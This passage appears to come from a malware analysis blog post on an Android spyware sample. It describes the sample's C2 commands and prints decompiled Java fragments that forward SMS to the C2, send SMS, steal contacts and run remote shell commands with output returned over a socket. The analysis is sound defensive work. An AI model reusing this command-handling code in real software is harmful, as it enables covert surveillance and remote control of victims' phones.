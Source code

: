 ```java
}
```
Retrieves all text messages stored on the device and sends them to the C2.

### Msppossag
```java
String youmass = MainService.this.command.substring(MainService.this.command.indexOf("Msppossag") + 9, MainService.this.command.indexOf("oproi9"));
String unums = MainService.this.command.substring(MainService.this.command.indexOf("oproi9") + 6, MainService.this.command.indexOf("YRRsxw"));
MainService.sendSMS(unums, youmass);
```
![](/blogs/assets/tiktok/ttsp/ttsp-09.png)

Sends an SMS to the number specified by the C2. The content of the text message is also controlled by the C2.

### Getconstactx
Retrieves contact information including contact names and their associated phone numbers and transmits it to the C2.

### Rinxgosa
Plays a ringtone.

### Shetermix
Executes a shell command on the device and transmits the results to the C2.

```java
String mssashel = MainService.this.command.substring(MainService.this.command.indexOf("Shetermix") + 9, MainService.this.command.indexOf("fze54h"));
MainService.socketOutputStream.writeBytes(MainService.this.Executer(mssashel) + "shwselxa");
MainService.socketOutputStream.flush();
```
![](/blogs/assets/tiktok/ttsp/ttsp-10.png)

### bithsssp64
```java
String mssashel2 = MainService.this.command.substring(MainService.this.command.indexOf("bithsssp64") + 10, MainService.this.command.indexOf("0uoirs"));
String mssashel22 = MainService.this.command.substring(MainService.this.command.indexOf("0uoirs") + 6, MainService.this.command.indexOf("fooittt"));
System.out.println("exec(" + mssashel2 + "  " + mssashel22 + ")");
DataOutputStream dataOutputStream2 = MainService.socketOutputStream;
StringBuilder sb11 = new StringBuilder();
sb11.append(MainService.this.Executer2(mssashel2, mssashel22));
```
![](/blogs/assets/tiktok/ttsp/ttsp-11.png)
Executes a shell command within the specified working directory. The command and directory are provided by the C2, stored in the variables mssashel2 and mssashel22 respectively.
